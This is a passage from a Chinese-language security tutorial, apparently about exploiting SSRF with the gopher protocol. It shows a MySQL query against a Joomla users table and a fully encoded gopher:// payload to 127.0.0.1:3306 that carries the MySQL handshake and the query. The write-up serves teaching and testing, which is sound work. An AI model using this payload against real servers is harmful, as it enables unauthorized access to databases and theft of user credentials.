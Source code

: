 [![](assets/1710299749-1b6a96642420011461a9e48d32933e65.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240312173022-263fbea8-e053-1.png)  
随后我们用同样方法构建 payload 其中 mysql 的查询语句为：

```bash
use joomla;select * from joomla_users;
```

[![](assets/1710299749-75085a35d5ddf6329fa6ff70b5a3bed4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240312173046-34d9eb28-e053-1.png)  
访问下面的连接

```bash
gopher://127.0.0.1:3306/_%a5%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%67%6f%62%6c%69%6e%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%27%00%00%00%03%75%73%65%20%6a%6f%6f%6d%6c%61%3b%73%65%6c%65%63%74%20%2a%20%66%72%6f%6d%20%6a%6f%6f%6d%6c%61%5f%75%73%65%72%73%3b%01%00%00%00%01
```

[![](assets/1710299749-7cc8ba84687a2e237d444d95ee6ec112.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240312173114-45522c36-e053-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
